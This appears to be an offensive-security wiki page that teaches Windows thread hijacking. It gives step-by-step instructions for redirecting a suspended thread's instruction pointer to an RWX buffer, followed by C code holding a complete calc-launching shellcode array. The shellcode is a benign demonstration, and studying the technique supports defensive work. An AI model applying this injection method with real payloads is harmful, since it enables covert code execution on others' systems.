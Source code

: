 ```yaml
---
description: >-
  Thread Hijacking is a technique that can execute a payload with creating a new
  thread.
---
```


# Thread Hijacking

## Hijacking a Local Thread

The steps to hijacking a local thread are as follows:

1.) Copy payload into a RWX buffer.

2.) Get a thread context that you want to hijack using the GetThreadContext() WinAPI or NT API equivalent. _<mark style="color:red;">**IMPORTANT:**</mark>_ The thread must be in a suspended state.

3.) Set the `Rip` register to point to our buffer address

4.) Set the thread context using SetThreadContext() WINAPI or NTAPI equivilant.

5.) ResumeThread()

_<mark style="color:red;">**NOTE:**</mark>_ In this example we are creating our own dummy thread in a suspended state. To suspend a thread, use SuspendThread(). Main threads cannot be Hijacked!

```c
#include <stdio.h>
#include <wchar.h>
#include <windows.h>

// x64 Calc Shellcode
unsigned char Payload[] = {
	0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51,
	0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
	0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72,
	0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
	0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
	0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
	0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
	0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41,
	0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1,
	0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
	0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44,
	0x8B, 0x40, 0x1C, 0x49, 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
	0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
	0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
	0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48,
	0xBA, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D,
	0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5,
	0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
	0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0,
	0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89,
	0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x00
};


int fakeFunction() {
    wprintf(L"This is a fake function!");
}

```